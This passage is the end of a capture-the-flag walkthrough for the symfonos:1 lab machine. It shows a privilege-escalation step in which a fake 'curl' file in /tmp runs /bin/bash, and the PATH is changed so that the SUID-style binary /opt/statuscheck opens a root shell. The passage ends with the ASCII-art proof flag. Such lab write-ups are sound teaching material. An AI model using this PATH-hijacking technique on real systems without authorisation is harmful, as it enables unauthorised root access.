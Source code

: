 After running the command it seems to be outputting a response from a  webserver, probably by using the "curl" command. Let's see if is has any hidden strings.

    strings /opt/statuscheck

![image](https://user-images.githubusercontent.com/76552238/158072628-aebb4587-6592-4131-b81f-77a21a5a98f7.png)

We can confirm that the "curl" command is being used. We can try to change the PATH variable and create a file name curl that opens a new shell.

    echo '/bin/bash' >> /tmp/curl

    chmod +x /tmp/curl

    export PATH=/tmp:$PATH

    /opt/statuscheck

![image](https://user-images.githubusercontent.com/76552238/158072825-0e973837-5965-47ac-840b-8412f48067a5.png)

We can go the 'root' directory and read the ***proof.txt*** file.

### **/root/proof.txt:***

            Congrats on rooting symfonos:1!

                    \ __
    --==/////////////[})))==*
                    / \ '          ,|
                        `\`\      //|                             ,|
                        \ `\  //,/'                           -~ |
    )             _-~~~\  |/ / |'|                       _-~  / ,
    ((            /' )   | \ / /'/                    _-~   _/_-~|
    (((            ;  /`  ' )/ /''                 _ -~     _-~ ,/'
    ) ))           `~~\   `\\/'/|'           __--~~__--\ _-~  _/, 
    ((( ))            / ~~    \ /~      __--~~  --~~  __/~  _-~ /
    ((\~\           |    )   | '      /        __--~~  \-~~ _-~
        `\(\    __--(   _/    |'\     /     --~~   __--~' _-~ ~|
        (  ((~~   __-~        \~\   /     ___---~~  ~~\~~__--~ 
        ~~\~~~~~~   `\-~      \~\ /           __--~~~'~~/
                    ;\ __.-~  ~-/      ~~~~~__\__---~~ _..--._
                    ;;;;;;;;'  /      ---~~~/_.-----.-~  _.._ ~\     
                    ;;;;;;;'   /      ----~~/         `\,~    `\ \        
                    ;;;;'     (      ---~~/         `:::|       `\\.      
                    |'  _      `----~~~~'      /      `:|        ()))),      
                ______/\/~    |                 /        /         (((((())  
            /~;;.____/;;'  /          ___.---(   `;;;/             )))'`))
            / //  _;______;'------~~~~~    |;;/\    /                ((   ( 
            //  \ \                        /  |  \;;,\                 `   
        (<_    \ \                    /',/-----'  _> 
            \_|     \\_                 //~;~~~~~~~~~ 
                    \_|               (,~~   
                                        \~\
                                        ~~

            Contact me via Twitter @zayotic to give feedback!

![image](https://user-images.githubusercontent.com/76552238/158072858-3b5a4839-6e3e-4215-95c4-0fe20c1880f7.png)
